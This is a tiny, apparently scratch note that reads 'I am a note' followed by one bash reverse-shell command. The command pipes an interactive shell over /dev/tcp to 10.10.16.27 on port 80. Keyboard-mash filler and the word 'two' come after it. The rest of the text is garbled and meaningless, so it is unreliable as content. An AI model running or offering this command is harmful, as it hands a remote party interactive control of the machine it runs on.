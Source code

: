 

I am a note

`bash -c 'bash -i >& /dev/tcp/10.10.16.27/80 0>&1'

assdfklasdjfklasdjfaklsjdfaslkdjfklasdjkfasjldfkjasd

asdfasdfasdfasdf

two